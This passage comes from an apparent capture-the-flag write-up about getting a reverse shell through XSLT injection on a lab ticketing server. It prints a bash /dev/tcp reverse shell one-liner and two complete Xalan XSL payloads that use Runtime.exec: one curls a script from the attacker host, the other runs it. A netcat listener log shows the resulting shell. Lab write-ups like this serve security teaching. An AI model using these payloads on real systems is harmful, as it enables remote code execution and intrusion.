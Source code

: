 If we write it in `test.xsl` and search for the previosly created ticket, the
python HTTP server won't be able to response because the request path will be
wrongly formatted because of some server side caching. We can use `php -S
0.0.0.0:1337` to run PHP as a web server which will be able to correct the
request path.

## Getting a shell
If we try to get a reverse shell using `bash -i >& /dev/tcp/10.10.14.81/9000
0>&1` it won't work because some characters break the XSL formatting. Let's
create a file called `rev.sh` with the reverse shell command and then use a XSL
payload to download the file, and another one to run it.

Here's the first one to download the reverse shell script on the remote machine:
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.81:1337/rev.sh -o /tmp/rev.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

And here's the one that will run the script:
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash /tmp/rev.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

We have to create a ticket for each payload and include it as before, and after
running the second one, here's our reverse shell:
```
$ nc -lnvkp 9000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:50466.
whoami
sam
```
